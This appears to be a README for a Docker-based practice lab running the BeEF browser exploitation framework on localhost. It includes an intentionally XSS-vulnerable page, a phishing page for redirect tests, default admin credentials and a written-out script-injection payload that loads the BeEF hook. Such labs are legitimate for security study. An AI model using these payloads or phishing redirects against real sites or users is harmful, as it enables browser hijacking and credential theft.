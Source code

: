 # beef playground  
## build docker  
docker build -t beef-playground .  
docker run -it -p 80:80 -p 3000:3000 beef-playground  
  
## beef server launched with  
admin web page: http://localhost:3000/ui/panel  
    user: beef  
    passwd: mybeefpasswd  
hook script: http://localhost:3000/hook.js  
  
## example pages accessible at:  
### Website with XSS vuln:  
XSS URL: http://localhost/xss-minimal.php  
input: <script src=http://localhost:3000/hook.js></script>  
or in URL: http://localhost/xss-minimal.php?name=<script src=http://localhost:3000/hook.js></script>  
  
### Phishing page for redirect test:  
phishing page: http://localhost/examples/github.html  
Module: Redirect iframe or standard  
  
## debug  
inspect docker container:  
docker run -it --entrypoint /bin/bash beef-playground  
in case any ruby gem installations are running an error, the solution is manual install.  
e.g. gem install xmlrpc  
  
## More  
### One creating modules  
https://github.com/beefproject/beef/wiki/Module-creation  
### Usage with Metasploit  
https://github.com/beefproject/beef/wiki/Configuration#metasploit  
